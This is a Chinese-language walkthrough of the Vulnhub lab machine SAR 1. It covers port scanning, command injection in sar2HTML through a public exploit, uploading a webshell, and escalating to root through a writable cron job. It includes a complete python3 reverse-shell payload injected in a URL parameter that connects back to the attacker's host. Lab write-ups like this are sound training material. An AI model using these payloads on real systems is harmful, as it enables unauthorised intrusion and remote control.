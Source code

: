 ```yaml
---

title: Vulnhub	425 SAR 1

---
```


考点：文件上传、命令执行、定时任务

靶机链接：<https://www.vulnhub.com/entry/sar-1,425/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| SAR        | 10.0.2.12 |



## 初步打点

### 端口扫描

```bash
$ export $tip=10.0.2.12
$ sudo nmap -v -A -p- $tip
Scanning 10.0.2.12 [65535 ports]
Discovered open port 80/tcp on 10.0.2.12
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```



### WEB测试

看来要硬钢web应用了

![1](https://static.iihack.com/vulnhub/425/1.PNG)

查看phpinfo

![2](https://static.iihack.com/vulnhub/425/2.PNG)

查看robots.txt

![3](https://static.iihack.com/vulnhub/425/3.PNG)

尝试访问sar2HTML作为二级目录

![4](https://static.iihack.com/vulnhub/425/4.PNG)





### 漏洞发现

搜一下sar2ascii.tar发现

https://www.exploit-db.com/exploits/47204 

## 获得权限

### 靶机测试

#### 思路一 命令执行

按照https://www.exploit-db.com/exploits/47204 执行命令

![5](https://static.iihack.com/vulnhub/425/5.PNG)

antsword连接成功

![6](https://static.iihack.com/vulnhub/425/6.PNG)

使用python直接反弹端口失败了，可以替换`python3 python3.5 python3.6 python3.87 python3.8 python3.9`等等，例如这台靶机使用`python3`成功反弹

```http
http://10.0.2.12/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### 思路二 文件上传

另外可以点击new直接上传webshell，对应目录是`/sarDATA/uPLOAD/`

```http
http://10.0.2.12/sar2HTML/sarDATA/uPLOAD/2.php
```

antsword连接成功

## 提权

[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)跑了遍发现定时任务

![7](https://static.iihack.com/vulnhub/425/7.PNG)

### 定时任务

修改定时任务的文件，每隔五分钟执行

![8](https://static.iihack.com/vulnhub/425/8.PNG)

静静等待，获得root权限shell

![9](https://static.iihack.com/vulnhub/425/9.PNG)





